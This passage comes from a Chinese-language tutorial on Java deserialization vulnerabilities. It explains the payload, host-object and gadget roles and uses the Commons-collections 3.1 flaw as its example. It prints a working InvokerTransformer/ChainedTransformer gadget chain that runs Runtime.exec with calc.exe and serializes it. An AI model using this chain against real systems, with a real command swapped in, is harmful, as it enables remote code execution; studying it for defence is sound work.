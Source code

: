   ```java
                reflectionChains= (ReflectionChains) stream.readFields().get("reflectionChains",null);
                reflectionChains.execute();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
  }
  ```

## 实施攻击的三个条件

为了实现一个攻击行为，我们需要从目标的系统中找到如下三个条件相关的类，然后将他们合理利用起来。根据漏洞利用过程我们将这三个条件比喻成三个模块以便于理解。

1. 无德的病毒

    无德的病毒指的是,依托 Java 本身的特性，将恶意代码包装到一个正常的调用流程里，使得在被触发的时候执行恶意的代码逻辑。在上述的模拟代码中 ReflectionObject 就承担这样的角色。

2. 无辜的宿主

    无辜的宿主只的是最终被序列化的对象，无辜的原因在于该对象在实现自己的 readObject 方法的时候并没有意识到自身的逻辑在对自身属性进行操作的时候会被恶意代码寄生。上述模拟代码的 ReadObject 就是这样的角色。

3. 无良的媒介

    无良的媒介指的是，用来将无德的病毒层层包装之后，放入宿主对象的一系列工具类，他们被创造的本意不是为了给病毒利用，而是被攻击者用来将恶意的代码包装到宿主能够接受的类型中。上述模拟代码的 ReflectionChains 就是这样的一个角色。

    现在我们将以 Commons-collections 3.1 被初次爆出反序列化漏洞的事件为例子，展示在攻击过程中需要构建的要素。

* ### 无德的病毒(一个可以进行序列化的恶意对象)

  在利用漏洞之前，我们需要找到一个可以实现执行恶意代码的工具类，他们的作用是将我们的恶意代码伪装起来，并且在一个合理的时机里触发我们的恶意代码。

  在上述我们构造的模拟漏洞中，ReflectionObject，ReflectionChains 就承担了将恶意代码包装到属性中的行为，并且可以在一个合理的时间中爆发。

  在 Commons-collections 3.1 的反序列化漏洞中如下的几个类就可以利用来包装我们的恶意代码。

  > org.apache.commons.collections.Transformer
  > org.apache.commons.collections.functors.ChainedTransformer
  > org.apache.commons.collections.functors.ConstantTransformer
  > org.apache.commons.collections.functors.InvokerTransformer

  ```java
  Transformer[] transformers = new Transformer[]{
          new ConstantTransformer(Runtime.class),
          new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),
          new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null, new Object[0]}),
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe",}),
  };
  Transformer transformerChain = new ChainedTransformer(transformers);

  //测试我们的恶意对象是否可以被序列化
  ByteArrayOutputStream out = new ByteArrayOutputStream();
  ObjectOutputStream objOut = new ObjectOutputStream(out);
  objOut.writeObject(transformerChain);

  //执行以下语句就可以调用起计算器
  transformerChain.transform(null);
  ```
